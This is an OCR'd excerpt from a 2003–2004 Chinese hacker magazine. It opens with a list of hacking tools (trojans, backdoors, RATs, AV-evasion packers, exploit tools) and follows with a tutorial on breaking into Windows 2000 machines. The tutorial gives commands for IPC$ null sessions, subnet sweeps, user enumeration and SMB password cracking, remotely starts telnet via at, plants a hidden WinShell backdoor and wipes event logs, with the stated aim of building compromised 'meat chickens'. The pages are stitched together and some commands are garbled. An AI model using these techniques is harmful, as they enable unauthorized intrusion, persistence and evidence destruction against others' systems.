

Radmin过滤器：Radmin过滤器，可以对WINNTautotack的扫描结果进行过滤。

SHED共享扫描器汉化版：又小又快的扫描NT、2000下共享的工具。

影音传送带(Net Transport)：一个实现MMS(多线程)、RTSP(PNA)、HTTP和FTP的下载利器。

TweakUI：可以直观地调整很多必须改动注册表才能达到的效果。

PC Inspector File Recovery：一个数据修复软件，它支持Fat12/16/32 和 NTFS 文件系统。


网络安全助手：新增查看默认共享、开放端口、服务，进程和用户功能。

木马克星iparmor：可以查杀5021种国际木马，112种电子邮件木马，保证查杀冰河类文件关联木马。

柳叶擦眼：可以列出系统所有的进程（包括隐藏的），并可以杀死进程。

网络信息综合查询：可当成浏览器来用。推荐使用通过IP来查一个IP上有多少虚拟主机。

WED：针对存在SQL Injection的网站对管理帐号进行扫描。

黑洞2004：国内最优秀的远程控制程序之一。

WinEggDropShell：一个扩展型的telnet后门程序。


金山毒霸最流行工具：十大最热门病毒专杀工具：JPEG恶意代码图片病毒、网银大盗、震荡波、冲击波、QQ病毒等专杀工具及工具说明。

PcShare：本远程控制软件为客户连接的反弹方式，由客户主动连接服务器，通信方式为HTTP隧道，可以控制局域网内部的机器。

Rection：只要你有一远程主机的管理员密码，并且远程主机的135端口和WMI服务(默认启动)都开启，那么，你就可以通过这个小程序远程开3389。

FSG：一只超级好的加壳软件。

JPEG漏洞的利用工具：利用Microsoft发布的MS04-028号漏洞原理编写的JPG木马。

Boler：个小小的软件，可以帮助你的木马逃脱杀毒软件的查杀。

Nmap：一款针对大型网络的端口扫描工具，尽管它也适用于单机扫描。

Pubwin 伪装程序：作者写的伪装程序。

Windows 杀毒助手：无需安装即可完全实现系统进程的关闭，实现一次关闭多个进程。

超星图书浏览器：专门针对数字图书的阅览、下载、打印、版权保护和下载计费而研究开发的。

ProRat：功能非常驻强大国外（土尔其）木马。

Cain：可以破解屏保、PWL密码、共享密码、缓存口令、远程共享口令、SMB口令。


DvbbsUpFile：本程序是根据动网upfile.asp文件所存在的漏洞而编写的。

ASP高级技术：这些资料属于TNT-B&B&CT成员EnterBD收集，这些资料要是读者看了，大家一定写出来的木马比别人的都好用。

IE IFRAME 漏洞溢出程序：该工具会自动打开端口28776。

Winicabras：简单的国外C S型木马。

旁注专用检测程序

桂林老兵后门定制工具

rawsniffer：嗅探超时，除非你的网络状况比较差，否则请不要随便调高。

Internet网上邻居：革命性的文件共享工具，破局域网的限制，将你的工作组架设在Internet之上，让你随时与远地的伙伴进行文件传输。

mstsc：可远程连接服务器。

网络执法官：局域网管理辅助软件，采用网络底层协议，能穿透各客户端防火墙对网络中的每一台主机进行监控。

激活专家：在你的句柄那里输入下一步, 并点激活, (输入时可能显示乱码，但不用理它)，你将畅通无阻。

Dekart Private Disk：一个强大、实时、易用的磁盘加密软件。

Windows 优化大师：从桌面到网络，从注册表清理到垃圾文件扫除，从黑客搜索到系统检测，Windows 优化大师都给您比较全面的解决方案。

庖丁解牛：一款文件分割合并工具。

MP3 Splitter & Joiner：一款非常有用的MP3编辑软件，它内建了MP3分割与合并模块。

蓝屏asp木马


## 小鸡快跑


## 一、前言

在 Windows 2000 的操作系统中，我们接触到了一个 Win9x 中没有的概念，那就是 IPC$（共享命名管道）。而相应地，针对 IPC$ 的利用方法和入侵也因为这个东西的出现而变得流行起来。其实，在 NT 中就已经有 IPC$ 这个概念，只是由于 NT 系列主要用于服务器而非面向个人用户，从而使得很多新接触 Win2k 的朋友并不是很熟悉，在这里，我就带领大家简单地认识 IPC$ 以及相关知识，并教大家如何使用 Win2k 本身的弱点来入侵 Win2k 的操作系统。

> 注意
> 本文中的入侵方法只限制于一些简单入侵和一些基本思路，并非对所有主机都适用。

### 名词解释——IPC$

打开 Windows 2000 的帮助，在里面搜索一下，不难找到这个名词的解释：共享命名管道。在 Win2k 中，这是主机间相互通信的基础。我们可试着将它想像为一个连接两个主机的物理连接线路，而我们所有从对方主机上查询到的信息，都通过这根专门的线路来传送给我们（这个比喻对 IPC$ 来说并不是很恰当，但对小菜来说，可以方便理解 IPC$ 的概念）。通过这条管道，我们可获得对方的用户列表、共享资源列表等资源。
至于具体如何使用，我会在后面进行详细讲解。

## 二、IPC$ 和空连接

> 注意
> 建立空连接的命令只有在 Win2k 下才可以使用，使用 Win9x 系统的读者不要来问我为什么不能建立空连接。

什么才是空连接？且听我细细道来！

### 1. 先看一下最直观的效果

我们先从最直观的角度来看，那就是命令：`net use \192.168.0.1\IPC$ "" /user:""`
这样，我们就和 IP 地址为 192.168.0.1 的主机建立了一个空连接（图 1），当一个空连接建立成功后，会返回命令成功的提示。
那么，接下来，我们可以做什么呢？获得用户列表，这是最直接的也是相当有用的结果。
很多朋友都问过，获得用户列表是如何做到的？ 其实，这是一个用户的请求过程（至于是哪个用户，我们稍后会详细分析），我们可以这样认为：相当于某个用户在对方的主机上运行了一个 net user，而同时将结果告诉了我们一样。
在这里，我们可以使用工具 newletmein，它可自动获得用户列表并试图使用一些弱口令进行猜测。我们可以先看一下 newletmein 的使用方法（好好看这些参数，在后面我们还要用到 newlemein 这个工具）：

```
E:\hack-tools>newletmein
get something from nt, hold by killusa.

Usage: newletmein <\\Server> <-group> <-options>
group:
	--all                    all users
	--admin                  Administrators
	--users                  Users
	--domainadmins           Domain Admins
	--domainusers            Domain Users
	--guests                 Guests
	--domainguests           Domain Guests
	--server                 Server Operators
	--account                Account Operators
	--backup                 Backup Operators
	--print                  Print Operators
	--replicator             Replicator
options:
	-g                       get in nt by name and null
	-d                       just display the users
```

根据命令帮助，我们可使用这个命令：`newletmein \192.168.0.1 -all -d`
这样，我们就可获得主机 IP 地址为 192.168.0.1 的主机上的用户列表（图 2）。





如果大家觉得使用 newletmein 比较麻烦，那么就用我给小菜们准备的这个工具吧，闲着没事时写的一个小程序，其作用就是获得用户列表而已（图 3）。

该工具为命令行下的工具（光盘中有收录），只需要一个参数，该参数为对方主机的IP地址，在使用该工具前，要先使用 net use \\IP_add \ipc$ "" /user:"" 命令与对方主机建立一个空连接。

如何？使用几个简单命令，我们就可轻松获得对方的主机用户列表。

### 2. 来一点不可不看的理论

也许大家在看上述过程后会有些迷惑不解吧！没关系，我们这里来点理论的东西，给大家一个完美的解释。

首先我们来说说空连接是个什么东西。 net use \\IP_add \ipc$ "" /user:"" 这个命令大家都应该见过，在命令中有两处被引号引了起来，而中间是没有内容的。如果我们把这里填上了一个管理员的用户名和密码后会得到什么呢？很显然，如果是这样，就相当于使用了一个有管理员权限的用户与对方主机建立了IPC$连接。

呵呵，说了半天，还是没说到空连接。既然是空连接，那么就是不需要任何用户名和密码建立的连接，与管理员的连接相比，这个连接所受的信任是很低的（什么是受信任？如果你信任你的朋友，那么会大方的借给他一百块银子的，是吧？当然，前提是你有这么多钱。我们这里也是，所有的信任连接都是基于该连接存在的前提而说的，如果IPC$这个东西都被删掉的话，就没有什么信任连接可谈了）。

一个信任级别很低的连接建立完成后，我们就可在这个信任的范围内尽量收集我们的信息。然而，绝大部分情况下，列出用户列表这个动作是我们是可以做到的。因此，就可通过空连接来获得。接下来，我们谈谈空连接的用户问题。

很多人都存在一个误解：net use \\IP_add \ipc$ "" /user:"" 这个命令就是一个不需要任何用户就可与对方建立连接的命令（-_-## 刚才我好象也这么说过……），这种说法其实存在一定的片面性。直观上来看，这个命令确实不需要用户名和密码，但当该命令执行时，实际上对方的主机会自动为该命令准备一个用户以建立该连接，那么，这个用户是哪个？如果哪位读者的Win2k的磁盘格式为NTFS的话，那么请跟我做：右键点击一个NTFS磁盘，选择“属性”，然后选择“安全”卡片，在这里选择“添加”。这样，我们就会获得一个十分详细的用户列表，其中可以看到一个ANONYMOUS LOGON用户（图4），这就是我们要找的用户。在空连接的过程中，实际上使用的就是这个用户。


另外，除了获得用户外，空连接在Windows的域中还是有很大的作用。在域中，通过空连接可获得更多的东西，由于Windows的域的知识相对来说要深一些，因此，在这里就不做详细讨论了。

### 名词解释之——域

在这里，我所说的域是指Windows的域模型（注：域这个概念，从理解上来说，有点像TCP/IP协议栈，准确的说应该是一个模型，

而组建一个域的话，则要遵守这个模型的原则。就像现在我们使用的TCP/IP一样，没有哪个TCP/IP是和ISO定义的OSI七层是完全一样的，但是，都遵守了这个模型）。我们可简单地认为域是由一个或一些服务器（即，我们常说的Server端）和多个客户机（即，客户端）组成的一个网络（但实际上域的概念并不是这么简单，我这么说，只是为了方便大家理解）。

在域中，有种东西叫做域控制器。一个域中，主域控制器只能有一个，而其他控制器可以有多个（例如，除了主域控制器<PDC>外，还可以有KDC、BDC等）。

微软对域有一个明确描述：域是一个复制的边界、一个安全的边界。至于如何去理解，呵呵，需要大量的实验和实践经验才会更明白。

## 三、寻找可以建立空连接的主机并收集用户列表（技巧）

与一些直接获得权限的漏洞来说，空连接相对来说作用好像并不大，但对于初步的信息收集而言，IPC$空连接还是有一定作用的。

在这里我演示一个小技巧吧，给大家一个可以建立空连接主机的办法。其实用法很简单，只要一行命令就可轻松搞定：开始→运行→CMD→确定。

在cmd中输入如下命令：

```
for /l %x IN (1,1,255) DO net use \\192.168.0.%x\ipc$ "" /user:""
```

（实际上尾数为255的IP地址是个广播地址，我们完全没必要将它纳为其中）

这样，我们可扫描192.168.0.0/24这个网段的所有主机，凡是可以建立空连接的主机都会显示一个成功信息，而无法建立空连接的主机将返回一个错误信息（图5）。



另外，如果我们想获得一个网段中所有主机的用户列表该怎么做呢？依旧可以使用for命令并配合newletmein。因为newletmein会自动与对方主机建立连接，所以我们不需要事先建立空连接而直接使用就可以了，命令格式如下：

```
for /l %x IN (1,1,255) DO newletmein \\192.168.0.%x -all -d
```

## 小鸡快跑

（图6）。


## 四、远程破解

对于很多人门新手来说，他们好像更乐意花时间去搞远程破解。虽然对于一些高级战法来说，暴力或字典远程破解并不可取，但在万不得已的情况下，我们也不妨一试。因此，这里就来讲讲如何进行远程破解。


我们要用到两个工具：newletmein 和 SMBCrack
从上面的讲述过程中，我们已经可以通过一些简单方法来获取一些配置并不安全的主机的用户列表，当获得用户列表并且在其私人方式无效的情况下，就可尝试使用远程破解了。
大家可以返回前面的部分查看一下 newletmein 的参数，其中，options 中有个参数“-g”，该参数的作用就是使用空口令对扫描到的用户进行猜解。

### 名词解释——空口令 & 弱口令

什么是空口令？当然就是没有任何密码。那么什么又是弱口令？按我的理解，就是弱智口令，凡像空口令、123、abc、123456 这样容易被人猜到的，都可归纳为弱口令（注：空口令也属于弱口令）。
在这里，我们使用 newletmein 的如下命令：

```
newletmein \\192.168.0.115 -all -g
```

呵呵，这里我的运气不好，没有找到空口令（图7）。
接下来说说使用SMBCrack进行破解。SMBCrack和newletmein就不太一样了，它可以使用指定的端口针对Win2k进行破解，支持字典破解。
SMBCrack也是一个命令行下的工具，它的使用格式为：
SMBCrack <IP> <Username> <Password file> [Port]
这里，例如我们想使用445端口来针对对方的administrator用户进行字典式破解，可使用如下命令：
SMBCrack 192.168.0.1 administrator X:\dic.dic 445
其中，“X:\dic.dic”用来指明字典文件的路径。




SMBCrack的速度相当快（图8），一般来说，在局域网内每秒400至500 Words应该不是问题（我在破解过程中，最高达到了900多Words）。
破解成功后会显示结果（图9），这里我很幸运，找到了一个空口令。

### 名词解释——字典文件

字典文件就是一个文件（昏 S ~~~~废话……），文件中可能包含了很多作为密码或用户名的字符，通过使用工具来读取这些用户名或密码，从而不断地组合尝试以获得正确的用户名和密码。
OK！到此为止，我们已通过几个简单方法获得了用户名和弱口令。接下来，我们看看通过这些东东能做什么？

## 五、使用弱口令攻破系统

只要Win2k的主机允许IPC$连接，再加上一个弱口令，那么，这就有足够的条件让我们攻破这个系统了。
IPC$是一个默认共享，除了它以外，还有admin$、C$、D$等（所有磁盘盘符后加上“$”符号）的默认共享。
我们可以通过一个叫UNC路径的东西进行访问，格式为：
\\ip\share$
例如，对我们已获得了用户名和密码的主机可这样来访问他的所有磁盘分区：开始→运行→\\ip\share$→确定。


这时会出现一个提示对话框，要求我们输入用户名和密码（图10），只要输入我们获得的用户名和密码，就可像浏览本地磁盘一样来浏览对方主机的磁盘。
对于一个人侵者来说，如果他的目的是获取对方的资料，那么，到此为止就已经足够了。因为，如果我们使用administrator来

## 小鸡快跑

浏览对方的磁盘，就有足够的权限来添加、修改或下载对方的文件了。但是，如果我们的目的是做肉鸡，那么至少要给对方植入一个后门，以便以后连接使用。因此，我们还要继续，至于如何去做，下面我会详细讲解。

```
C:\>net use \\\\ipc$ "" /user:"administrator"
命令成功完成。

C:\>
```


在入侵时，我们可能会遇到多种情况。这里我们假设对方只开放了 IPC$ 共享，来看看应该怎么做？
首先，我们需要先建立一个有管理员权限的 IPC$ 连接（图 11）：
net use \\192.168.0.1\ipc$ "" /user:"administrator"
这样，我们就与主机 192.168.0.1 建立了连接，因为这里我们假设对方只开放了 IPC$ 共享，因此，不能通过 UNC 路径来浏览对方的磁盘分区了。但我们又需要获得一个 shell 才能控制对方，那该怎么做呢？

### 名词解释——shell

shell，直译为“壳”，在操作系统中，我们将 shell 认为用户用来对系统内核进行操作和交流的一个东西，如果按层次分的话，可将 shell 定义在系统内核这一层和用户的操作用界面这一层之间。
因为我们无法直接浏览对方的磁盘，因此，种植后门也相对变得比较麻烦。所以，第一步是获得 shell。在这里我们可以通过 IPC$ 连接获得一个 Telnet 的 shell，方法如下：
建立连接后，使用 at 命令 \\192.168.0.1 先查看一下对方的计划任务清单（图 12）。

```
C:\>net use \\\\ipc$ "" /user:"administrator"
命令成功完成。

C:\>at \\\\192.168.0.1
清单是空的。

C:\>
```


```
C:\>net use \\\\ipc$ "" /user:"administrator"
命令成功完成。

C:\>at \\\\192.168.0.1
清单是空的。

C:\>net time \\\\192.168.0.1
\\192.168.0.1 的当前时间是 2003/12/11 下午 06:49
命令成功完成。

C:\>at \\\\192.168.0.1 18:51:54 net start telnet
新加了一项作业，其作业 ID = 1

C:\>
```


```
Server allows NTLM authentication only
Server has closed connection

遗失对主机的连接。

C:\>
```


```
欢迎使用 Microsoft Telnet 服务器。
C:\>
```


然后，使用 at 命令来给对方开个 Telnet，方法如下：先使用 net time 命令查看一下对方的时间：net time \\192.168.0.1
使用该命令后会返回对方主机的时间。然后，根据时间我们来使用 at 命令制定计划任务：at \\192.168.0.1 18:51 net start telnet
命令完成后，会有提示：“新加了一项作业，其作业 ID=1”（如果对方已经制定了计划任务，那么 ID 号将会依次被推后）。这样，对方主机将在 18 点 51 分启动 Telnet 服务（图 13）。
接下来我们就是等待，另外，也可随时使用 net time 来查看对方的时间，以确认时间是否已经到了。当时间到了之后，我们就可使用 telnet 192.168.0.1 来进行连接，但大多数情况下，我们会遇到一个错误提示而无法进行连接，如图 14。
这是因为对方的主机需要 NTLM 验证的原因。没关系，我来教大家一个简单的方法，传统方法是上传 ntlm.exe 来运行以取消对方的 NTLM 验证，这里我们不用这个方法，而使用另外一个方法，步骤如下：
假设这里获得的对方主机用户名是：administrator，密码为空。那么，如果我们本机上当前运行的用户为 administrator，就可轻松解决问题了。在本机上，修改密码为空（我们的目的是保证当前使用的用户名和密码与对方主机上获得的用户名和密码一致）。
改完密码后，直接 Telnet 对方主机，怎么样？会发现我们成功地 Telnet 到对方主机了（图 15）。此时，就获得了一个 shell，我们完全可在本机 CMD 上一样使用任何命令来控制对方主机了。
从某种程度上来说，我们已经控制住了对方，并且留下了一个后门——系统自带的 Telnet 后门（只不过这个后门的手法并不高明，很容易被发现）。
现在，这台机器已经是你的肉鸡了。

### 名词解释——Telnet

先来看看微软给 Telnet 服务器的定义：Telnet 服务器允许 Telnet 客户的用户连接到您的计算机上，并使用计算机中的命令行应用程序，就像他们坐在您的计算机前面一样。
就像我们看到的一样，通过 Telnet 连接主机后，就可像在本机上一样使用命令来控制对方主机了。

### 名词解释——NTLM

NTLM 是 Windows 网络中客户机之间的一种默认的验证机制。关于 NTLM 的具体过程和相关内容，在以前我写的 SMB 会话劫持中已经提到了，而且，网上相关资料也不少，大家可查阅一下。
大家可以看到，通过以上简单几步，我们已经获得了一台肉鸡，但由于 Telnet 本身的一些原因，导致该后门非常容易被发现。所以，我们往往需要借助第三方软件来完成我们的后门。在这里，给大家推荐一款元老级的 Telnet 后门程序——WinShell。



黑客X档案 2003 2004年合订本下册


## 小鸡快跑

打开 Winshell 后，直接进入配置界面（图 16），根据提示，我们需要进行一番精心配置，这样才能保证不容易被察觉，尤其是生成的服务名（因为 Winshell 是借助 Windows 的服务启动的，所以保证服务名不容易被察觉非常重要）。








在这里，我进行了一下简单配置（图 17），大家可以效仿一下。但配置这类后门程序时，需要更多的往往是经验，有足够的经验才能了解对方的想法，这正是所谓的“知己知彼，百战不殆”。配置完成后，点“Make”按钮就会生成 Winshell 的服务端，选择一个文件名，保存到想要的目录下就可以了。另外，同时还会生成一个与服务端名相同的文本文件，里面记录着服务端的配置信息，忘了服务端的配置的话，可以看这个文本文件的内容（图 18）。

按照上面的方法，我们已经配置好一个后门的服务端了，那么，我们现在接着上面的继续做。

还是先 Telnet 连接到对方主机，然后使用命令 net share admin$ 来开启对方的 admin$（admin$ 共享指向磁盘的 \%systemroot%\ 目录，默认为 C:\WINNT）共享（图 19）。接下来，我们就要将刚才做的后门程序复制到对方的主机上，步骤如下：

先使用 exit 命令退出 Telnet，然后使用如下命令：copy e:\server.exe \\192.168.0.1\admin$\system32（图 20）

这样，我就将刚才的后门程序复制到了对方的 system32 目录下，然后就要使用 at 命令来制定一个计划任务，以使 server.exe 运行（图 21）。

接下来，就是等待时间的流逝……等时间到了之后，我们就可以通过 Telnet 192.168.0.1 5277 命令 Telnet 到对方的主机上了。

注意：当我将 server.exe 复制到对方的 system32 目录后，在 at 命令中不需要指定路径，如果是复制到如 F:\ABC 这样的文件夹下，那么，at 命令中就要指明 server.exe 的所在路径了，否则会出现错误，无法运行！

至此，我们的工作基本做完了，不过，因为我们曾使用过 Telnet，而 Telnet 会生成日志信息，所以还要删除对方的日志，这里我们使用工具 elsave，命令格式如下：

（先用 administrator 建立 IPC$ 连接，然后再使用下面的命令）

> elsave -s \\192.168.0.1 -l "application" -C //清除应用程序日志
elsave -s \\192.168.0.1 -l "system" -C //清除系统日志
elsave -s \\192.168.0.1 -l "security" -C //清除安全日志

因为 Winshell 每次开机时都会以服务的形式启动并运行，因此，只要对方没有发现，我们在对方任何在线的时间都可 Telnet 连接上，这样，肉鸡就完成了。

## 六、防御方法

入侵到这里是完成了，下面给大家讲一下防御方法。

针对弱口令，我们只有靠人为的加强密码，几乎别无它法（当然，如果能保证你的系统补丁最新，危险端口全关掉的话，也可以试试空口令。但是，物理上的入侵还是难以避免的）。主要的问题在于 IPC$ 空连接，我们应该如何避免？


大家可以看到，在空连接建立后，我们可以枚举帐号。其实，除此之外，还可列出对方的共享列表（如图 22，该共享列表并不包含默认共享），可见，其危害还是不小的。


为了防止帐号被枚举和共享列表被查看，我们可使用这样的方法（网上很多地方都在教一种修改注册表的方法，我在这里并不是很推荐，希望大家能使用下面的方法）：
打开控制面板，进入管理工具，里面有一个“本地安全策略”。

## 看我七十二变
## 反偷QQ好手
dahuabaobao

## 一、前言

梦里面空气开始冒烟，蒙胧中完美的脸慢慢地出现……
哇！大家不要想歪了，我并不是在写蔡依林的“看我七十二变”，而是在讲述我的一次真实经历！
